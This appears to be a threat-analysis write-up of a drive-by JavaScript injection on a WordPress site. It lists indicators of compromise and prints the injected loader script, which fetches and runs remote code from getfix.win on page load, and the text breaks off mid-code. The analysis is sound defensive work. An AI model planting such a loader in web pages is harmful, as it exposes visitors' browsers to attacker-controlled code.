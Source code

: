 ## breakersfwb.com Drive-By Target Analysis
*7 Sept 2025, R. Halim & K.Tonkin*

This document outlines a more detailed analysis into the JavaScript injection shown on `https://www.breakersfwb.com`.

> **WARNING!** Do not directly interact with any IOCs, code samples, or malicious payloads outside of a controlled and
> isolated environment.


## Relevant Indicators of Compromise (IOCs)

| Type   | Indicator                                                        |
|--------|------------------------------------------------------------------|
| Domain | `getfix[.]win`                                                   |
| Domain | `ncloud[.]icu`                                                   |
| Domain | `2no.co`                                                         |
| IP     | `155[.]94.155.25`                                                |
| URL    | `https://getfix[.]win/jsrepo?rnd=<random_number>&ts=<timestamp>` |
| URL    | `https://ncloud.icu/?ref=<target_domain>`                        |


## Analysis

Likely through a WordPress theme injection, it was discovered that every page had a JavaScript `<script>` tag inserted
in the HTML body, which holds a [IIFE](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) that is executed as soon
as the webpage loads in the victims browser. In short, a block of code is defined as a function, then immediately
invoked without naming the function. Below are the contents of the JavaScript block, which shows the next sequence to
load malicious JavaScript into the browser.

```html
<script>
(function() {
    if (document.readyState !== 'loading') {
        loadScript();
    } else {
        document.addEventListener('DOMContentLoaded', loadScript, {once: true});
    }

    function loadScript() {
        var url = 'https://getfix.win/jsrepo?rnd=' + Math.random() + '&ts=' + Date.now();
        
        fetch(url, {
            method: 'GET',
            cache: 'no-store',
            credentials: 'same-origin'
        })
        .then(response => {
            if (!response.ok) throw new Error('HTTP ' + response.status);
            return response.text();
        })
        .then(data => {
            var script = document.createElement('script');
            script.textContent = data.trim();
            document.head.appendChild(script);
```